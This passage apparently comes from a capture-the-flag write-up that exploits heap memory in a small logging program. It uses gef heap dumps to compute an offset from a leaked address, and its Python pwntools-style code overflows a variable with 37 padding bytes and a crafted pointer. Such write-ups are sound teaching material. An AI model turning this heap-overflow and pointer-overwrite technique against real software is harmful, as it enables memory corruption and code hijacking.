 ```
    [0x000055738dfb42e0     24 28 28 24 76 61 72 2b 24 7a 29 29 0a 58 58 58    $(($var+$z)).XXX] <- std::cout buffer
Chunk(addr=0x55738dfb52f0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055738dfb52f0     e8 cb 7f 68 73 55 00 00 00 00 00 00 00 00 00 00    ...hsU..........] <- $z variable
Chunk(addr=0x55738dfb5310, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055738dfb5310     01 00 00 00 00 00 00 00 88 d2 7f 68 73 55 00 00    ...........hsU..] <- pair for $z variable
Chunk(addr=0x55738dfb5360, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055738dfb5360     03 00 00 00 6c 6f 67 24 76 61 72 58 58 58 58 58    ....log$varXXXXX] <- second log
Chunk(addr=0x55738dfb5380, size=0x5858585858585858, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055738dfb5380     58 58 58 58 58 58 58 58 00 00 00 00 00 00 00 00    XXXXXXXX........] <- the rest of the heap
```
In the `$z` variable, we can see the pointer to the `print` function `e8 cb 7f 68 73 55 00 00` which is located at the address `0x000055738dfb52f0`. As we leaked the address of a string object located in "the rest of the heap", we can compute the number of bytes separating these two addresses: `0x000055738dfb53a0 - 0x000055738dfb52f0 = 0xB0` (176 in decimal). We can now compute the address of the pointer `print` for a `longVariable` we want to display:
```py
# Get the address from the bytes returned by the program
str_addr = int(r.split(b'\n')[0])
# Compute the address of the pointer to print
long_var_ptr = str_addr - 176
```
### Modify value of variable with print pointer address
We want now to change the value of a variable with the computed address and then print its content using the `getLongVar` function. Luckily, this function does not require the type to be `STRING` to print the content that is pointed by the value. So we can put garbage in the type of this variable.

Let's create a new variable and look at the heap:
```py
# Again, create a new log to stop overwritting the previous log
conn.send(b'log\n')

r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$vor=sto\n') # I know, I am inspired with the name of the variable
```
The heap is like this:
```
gef➤  x/16wx 0x000055b3c82d6360+0x20+0x20+0x20+0x50+0x20       <- I manually compute the address of the last log chunk
0x55b3c82d6430:	0x00000002	0x24676f6c	0x00726f76	0x00000000
0x55b3c82d6440:	0x00000000	0x00000000	0x00000021	0x00000000
0x55b3c82d6450:	0xa4820bd0	0x000055b3	0x00000001	0x00000000
0x55b3c82d6460:	0xc82d6470	0x000055b3	0x00000021	0x00000000  <- we want to overwrite this address
```
We would like these chunks to become:
```
0x55b3c82d6430:	0x00000002	0x24676f6c	0xXX726f76	0xXXXXXXXX
0x55b3c82d6440:	0xXXXXXXXX	0xXXXXXXXX	0xXXXXXXXX	0xXXXXXXXX
0x55b3c82d6450:	0xXXXXXXXX	0xXXXXXXXX	0xXXXXXXXX	0xXXXXXXXX
0x55b3c82d6460:	0xYYYYYYYY	0xYYYYYYYY	0x00000021	0x00000000 <- Ys represent the address computed before
```
To erase the value of the variable `vor`, we need to add 37 characters followed by the address computed above:
```py
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'X'*37 + bytes(reversed(bytes.fromhex(hex(long_var_ptr)[2:]))) + b'\n')
```